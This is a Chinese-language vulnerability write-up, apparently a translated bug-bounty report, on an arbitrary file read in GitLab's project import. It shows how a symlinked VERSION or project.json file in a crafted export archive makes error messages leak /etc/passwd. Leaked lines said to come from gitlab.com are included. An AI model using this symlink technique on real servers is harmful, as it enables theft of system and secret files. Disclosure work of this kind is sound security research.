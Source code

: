当我们再次加载之前导出的GitLab文件时，将会发生以下几件事情。首先，系统会等待文件写入磁盘（针对大型仓库而言）；其次，系统会根据VERSION文件来检测导入项目的版本；最后，GitLab会根据project.json文件来创建一个新的Project实例。

这里的第一步其实并不重要，所以我们现在直接来看一看第二步中系统所执行的相关代码（Gitlab::ImportExport::VersionChecker，第12-18行）：

1234567def check! version = File.open(version_file, &:readline) verify_version!(version)rescue => e shared.error(e) falseend

请各位注意第13行的代码，它将会打开文件并调用readline方法，而这个方法将会返回稳健的第一行数据。第16行代码会捕获系统运行过程中的所有异常，并将异常信息压入errors栈。所有的这些错误都将被发送至前端。接下来，让我们看一看该文件中的第27-31行代码：

12345if Gem::Version.new(version) != Gem::Version.new(Gitlab::ImportExport.version) raise Gitlab::ImportExport::Error.new("Import version mismatch: Required #{Gitlab::ImportExport.version} but was #{version}")else trueend

这也就意味着，如果文件版本不正确的话，系统会返回一个异常，异常信息中会包含这份GitLab导出文件的版本信息。我们解压GitLab的导出文件，用一个符号链接替换其中的VERSION文件，然后再重新进行压缩。tar文件的结构如下所示：

1234export $ ls -lash 8 lrwxr-xr-x 1 jobert staff 11B Oct 25 20:43 VERSION -> /etc/passwd 8 -rw-r--r--@ 1 jobert staff 341B Oct 25 19:53 project.bundle 8 lrwxr-xr-x 1 jobert staff 11B Oct 25 20:43 project.json

在创建好了新的GitLab导出文件之后（在导出目录中执行tar -czvf test.tar.gz），我们就可以加载这份新的GitLab文件了。加载成功之后，因为文件存在版本错误，所以系统将会抛出一个异常，而GitLab实例将会返回第一行错误信息：

![](http://p2.pstatp.com/large/110e00009c404a207aff)

但是，这种方法只能读取某个文件的第一行数据。这的确很有意思，但这肯定不是我们想要的，我们想要读取文件的完整内容。于是我们继续分析，看看是否能找到读取完整文件的方法。正如我之前所提到的，导入过程中的第三步就是创建一个新的Project实例。此时，下列代码将会被执行（Gitlab::ImportExport::ProjectTreeRestorer，第11-22行）：

1234567891011def restore json = IO.read(@path) tree_hash = ActiveSupport::JSON.decode(json) project_members = tree_hash.delete('project_members') ActiveRecord::Base.no_touching do create_relations endrescue => e shared.error(e) falseend

这段代码采用的结构与负责进行版本检测的代码结构非常相似，第13-18行代码可以捕获异常，然后将错误信息压入errors栈。ActiveSupport会使用JSON.parse来解码JSON数据，如果解码失败的话，系统会将待解码的字符串包含在错误信息中一起返回。这也就意味着，如果我们可以让解码器抛出一个异常的话，我们就可以读取稳健的内容了。其实也并不难，先来看看下面给出的这个文件结构：

1234export $ ls -lash 8 -rw-r--r--@ 1 jobert staff 11B Oct 25 20:43 VERSION 8 -rw-r--r--@ 1 jobert staff 341B Oct 25 19:53 project.bundle 8 lrwxr-xr-x 1 jobert staff 11B Oct 25 20:43 project.json -> /etc/passwd

在这个例子中，project.json文件是一个指向/etc/passwd的符号链接。第14行代码可以调用IO.read方法来读取文件内容。很明显，/etc/passwd文件中并不包含有效的JSON数据。因此，系统肯定会抛出一个异常，而异常信息中将会包含/etc/passwd文件的内容。使用tar来对文件进行压缩，然后准备上传[演示文件下载-test.tar.gz（F130233）]。文件导入成功之后，我们就可以从错误信息中获取链接文件的内容了：

![](http://p3.pstatp.com/large/106a000573200c8240ae)

需要声明的是，这并不是我自己的/etc/passwd文件。下面给出的是gitlab.com中/etc/passwd文件的最后五行数据：

12345alejandro:x:1117:1117::/home/alejandro:/bin/bashprometheus:x:999:999::/opt/prometheus:/bin/falsegitlab-monitor:x:998:998::/opt/gitlab-monitor:/bin/falsepostgres:x:116:121:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bashbrian:x:1118:1118::/home/brian:/bin/bash

因此，攻击者同样可以利用这种方法来读取GitLab中Rails项目的机密文件。需要注意的是，这个问题也将导致RCE漏洞。除此之外，攻击者甚至还可以通过这个漏洞拿到GitLab的shell，并访问所有的代码仓库。

附件下载
